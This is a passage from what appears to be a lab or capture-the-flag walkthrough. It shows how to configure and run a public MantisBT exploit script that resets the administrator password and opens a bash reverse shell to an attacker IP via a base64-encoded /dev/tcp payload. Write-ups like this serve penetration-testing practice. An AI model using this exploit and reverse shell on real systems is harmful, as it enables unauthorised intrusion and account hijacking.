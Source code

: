 Looking at the code shows we need to change a few things:

```python
class exploit():
	def __init__(self):
		self.s = requests.Session()
		self.headers = dict() # Initialize the headers dictionary
		self.RHOST = "192.168.95.84" # Victim IP
		self.RPORT = "80" # Victim port
		self.LHOST = "192.168.49.95" # Attacker IP
		self.LPORT = "4444" # Attacker Port
		self.verify_user_id = "1" # User id for the target account
		self.realname = "administrator" # Username to hijack
		self.passwd = "password" # New password after account hijack
		self.mantisLoc = "/mantisbt" # Location of mantis in URL
		self.ReverseShell = "echo " + b64encode("bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash" # Reverse shell payload
```

Make sure to change the RHOST, RPORT, LHOST, LPORT, and mantisLoc.

<br>

## System Access

After making the changes above just run it with `python2 48818.py` and you should get a reverse shell back:

![](images/tre5.png)
